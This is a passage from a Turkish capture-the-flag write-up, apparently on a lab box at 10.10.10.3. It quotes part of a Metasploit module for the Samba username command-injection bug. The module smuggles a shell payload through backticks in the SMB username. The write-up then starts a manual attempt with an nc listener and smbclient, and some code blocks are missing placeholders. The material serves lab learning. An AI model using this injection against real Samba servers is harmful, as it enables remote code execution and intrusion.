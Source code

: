 ```
                                                        # mileage may vary from system to system..
                                                }
                                },
                        'Targets'        =>
                                [
                                        [ "Automatic", { } ]
                                ],
                        'DefaultTarget'  => 0,
                        'DisclosureDate' => 'May 14 2007'))

                register_options(
                        [
                                Opt::RPORT(139)
                        ], self.class)
        end


        def exploit

                connect

                # lol?
                username = "/=`nohup " + payload.encoded + "`"
                begin
                        simple.client.negotiate(false)
                        simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
                rescue ::Timeout::Error, XCEPT::LoginError
                        # nothing, it either worked or it didn't ;)
                end

                handler
        end

end
```


Önemli kısım en alttaki ==def exploit'te==. kullanarak bir SMB oturumu oluşturuyor:

{{CODE_BLOCK_8}}


{{CODE_BLOCK_9}}


#### smbclient Fails

Bunu smbclient ile deneyeceğim. 443'te bir nc listener başlatacağım. Paylaşıma smbclient //10.10.10.3/tmp kullanarak bağlanabiliyorum. Önce bir kullanıcı belirtmeyi denedim:

![Pasted image 20250205204058.png](/img/user/resimler/Pasted%20image%2020250205204058.png)

![Pasted image 20250205204359.png](/img/user/resimler/Pasted%20image%2020250205204359.png)
